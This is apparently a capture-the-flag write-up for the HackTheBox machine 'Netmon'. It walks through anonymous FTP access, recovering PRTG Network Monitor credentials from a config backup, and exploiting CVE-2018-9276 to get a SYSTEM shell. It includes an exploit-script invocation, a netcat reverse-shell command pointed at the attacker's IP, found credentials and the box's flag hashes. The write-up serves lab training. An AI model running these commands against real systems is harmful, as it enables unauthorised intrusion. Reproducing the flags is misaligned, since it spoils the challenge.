





# Netmon

Author: Ewaël

**Netmon** is an easy HackTheBox box by mrb3n.

`nmap -sC -sV -oN nmap 10.10.10.152 -v -A` shows port 80 is open and an anonymous ftp access. Let's check this website first.



The default credentitials `prtgadmin:prtgadmin` do not work and I do not find any bypass on Google. Let's try that ftp anonymous access with `ftp 10.10.10.152` and `anonymous:<empty>`.

From there I can access every resources on the machine as a user. First I get the user flag in `/Users/Public`:

`dd58ce67b49e15105e88096c8d9255a5`

Then I search for PRTG config files which could contain some credentitials. The default location for configuration files is `/programdata/Paessler/PRTG Network Monitor`. I transfer all of them on host and finally find something interesting in `PRTG Configuration.old.bak`: `prtgadmin:PrTg@dmin2018`.

I change it to `prtgadmin:PrTg@dmin2019` and log into PRTG Network Monitor.



I can now exploit the CVE-2018-9276. I download the CVE python script and execute it:

```
python CVE-2018-9276.py -i 10.10.10.152 -p 80 --lhost 10.10.14.34 --lport 4444 --user prtgadmin --password PrTg@dmin2019
```

Back on the site, I have to exploit a notification vulnerability. Let's start by finding notifications list:



Then the notifications settings:



Finally I check the `Execute Program` box and I fill it with `nc 10.10.14.34 4444 -e /bin/sh`:



A shell pops up on host as system administrator when I send a notification test with those settings. I can now get my root flag:

`3018977fb944bf1878f75b879fba67cc`
